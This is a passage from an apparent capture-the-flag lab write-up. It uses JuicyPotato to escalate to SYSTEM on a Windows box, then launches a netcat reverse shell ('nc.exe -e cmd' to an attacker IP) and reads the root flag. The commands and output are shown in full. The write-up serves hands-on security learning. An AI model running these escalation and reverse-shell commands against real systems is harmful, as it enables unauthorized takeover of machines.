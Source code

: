 Its usage it's simple, we have to specify:
- Type of proccess (-t) or both using **\***.
- Random port (-l)
- Program to execte (-p)
- Arguments for the program (-a)

```powershell
.\JuicyPotato.exe -t * -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/c whoami"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

It works! Now we can send us a shell with netcat:
```powershell
.\JuicyPotato.exe -t * -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.161 334"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```powershell
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.76.192.
Ncat: Connection from 10.129.76.192:49419.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Perfect! Now we can access the Administrator's Desktop and find the **root.txt**:
```powershell
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\Administrator\Desktop

22/03/2017  10:02     <DIR>          .
22/03/2017  10:02     <DIR>          ..
10/07/2022  08:43                 34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.432.272.896 bytes free

C:\Users\Administrator\Desktop>type root.txt
0f06029728aec92*****************
```

See you next time!